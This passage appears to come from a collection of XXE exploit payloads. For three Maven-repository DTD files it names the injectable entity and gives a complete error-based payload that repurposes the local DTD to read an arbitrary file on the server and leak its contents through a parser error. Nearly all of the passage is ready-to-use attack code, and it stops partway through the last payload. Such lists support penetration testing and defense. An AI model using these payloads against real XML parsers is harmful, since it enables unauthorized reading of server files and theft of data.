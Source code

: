 **XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/sonarsource/xml/sonar-xml-plugin/1.4.3.1027/sonar-xml-plugin-1.4.3.1027.jar!/org/sonar/plugins/xml/dtd/xhtml1/xhtml1-frameset.dtd">

    <!ENTITY % HTMLlat1 '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/wildfly/wildfly-dist/8.2.1.Final/wildfly-dist-8.2.1.Final.zip!/wildfly-8.2.1.Final/docs/schema/web-facesconfig_1_0.dtd`

**Injectable entity:** `%Language`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/wildfly/wildfly-dist/8.2.1.Final/wildfly-dist-8.2.1.Final.zip!/wildfly-8.2.1.Final/docs/schema/web-facesconfig_1_0.dtd">

    <!ENTITY % Language '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/xml-apis/xml-apis/1.0.b2/xml-apis-1.0.b2-sources.jar!/com/sun/xml/xhtml/resources/xhtml1-frameset.dtd`

**Injectable entity:** `%HTMLlat1`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/xml-apis/xml-apis/1.0.b2/xml-apis-1.0.b2-sources.jar!/com/sun/xml/xhtml/resources/xhtml1-frameset.dtd">

    <!ENTITY % HTMLlat1 '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
```
